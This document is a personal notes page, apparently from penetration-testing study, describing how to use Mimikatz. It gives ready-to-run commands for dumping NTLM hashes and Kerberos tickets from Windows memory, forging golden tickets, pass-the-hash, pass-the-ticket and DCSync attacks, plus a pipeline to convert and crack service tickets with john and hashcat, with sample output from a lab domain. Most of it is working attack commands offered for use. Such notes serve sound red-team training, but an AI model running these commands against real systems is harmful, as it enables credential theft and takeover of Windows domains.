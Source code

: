 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
Mimikatz is a windows tool for extracting plaintext passwords, hashes, PIN codes, and kerberos tickets from memory. It is also capable of performing Pass-the-Hash, Pass-the-Ticket, or build *Golden* tickets.
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of the tool that can be run on linux systems.
> [Linikatz](https://github.com/CiscoCXSecurity/linikatz) performs a similar role for linux too

## Installation
Pre-built binaries available in the git repo: https://github.com/gentilkiwi/mimikatz/releases
## Documentation
**Cheatsheet:** 
**Website:** https://github.com/gentilkiwi/mimikatz
## Usage
### Obtaining Hashes & Tickets
```batch
# Obtain NTLM hashes for users
C:\> mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit

# Obtain Kerberos Tickets (This potentially doesn't work for some W10 versions as it uses the wrong encryption)
C:\> mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit

C:\> dir *.kirbi

<SNIP>
-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-johnny@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
<SNIP>

```
> For the tickets:
> - If it ends with `$` (Result 2 above) then it corresponds to the computer account (allowing the system to interact with Active Directory)
> - User tickets have the user's name (Result 1 above) followed by an `@` then the service name and domain. It follows the format `[random_value]-username@service-domain.local.kirbi`
> - If a user ticket has the service `krbtgt` then it is the [[Operating Systems/Windows/Kerberos#Ticket Granting Ticket (TGT)|TGT]] of that account.

### Extracting from Credential Manager
```batch
sekurlsa::credman
```

### Exporting Kerberos Keys
Keys are not the same as tickets, they are encryption keys that Kerberos uses for creating TGTs.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

### Create a Golden Ticket
``` PowerShell
kerberos::golden /user:[user] /domain:[domain] /sid:[domain-sid] /krbtgt:[krbtgt-acc-nthash] /sids:[additional-sids] /ptt
```

### Extracting Kerberos TGS Tickets
```batch
C:\> mimikatz.exe privilege::debug
	base64 /out:true
	kerberos::list /export
```
> Without `base64 /out:true` it will extract to a `.kirbi` file, writing them to disk on the target machine (so will need to be exfiltrated)

As the base64 export is column wrapped, we need to prepare it for cracking:
```bash
# Remove any new lines and whitespace
echo "<base64 blob>" |  tr -d \\n
# Place the output into a file

# Convert to a .kirbi file
cat encoded_file | base64 -d > user.kirbi

# Conver it with john
python kirbi2john.py user.kirbi

# Modify the crack file for hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > user_tgs_hashcat

# Crack it
hashcat -m 13100 user_tgs_hashcat rockyou.txt
```

### Pass-the-Hash
Using the `sekurlsa::pth` module we can perform a pass-the-hash attack. It starts a process using the user's hash.
```batch
C:\> mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /NTLM:<hash> /domain:<AD_domain> /run:cmd.exe" exit
```
> We can specify any program in the `/run:` flag to launch any program but a shell is often most useful.

### Pass the Ticket
Using the `kerberos::ptt` module we can perform a pass-the-ticket attack using a `.kirbi` ticket file.
```batch
C:\> mimikatz.exe privilege::debug "kerberos::ptt <ticket_file> exit
```

### [[Abusing ACLs#DCSync|DCSync]]
> We may have to use `runas /netonly /user:[domain]\[user] powershell` as we need to be running in the context of the user with the DCSync permissions
> Or you may have to `RClick > Run as another user` if you have RDP access to powershell
```PowerShell
mimikatz.exe privilege::debug "lsadump::dcsync /domain:[domain] /user:[domain]\administrator"
```

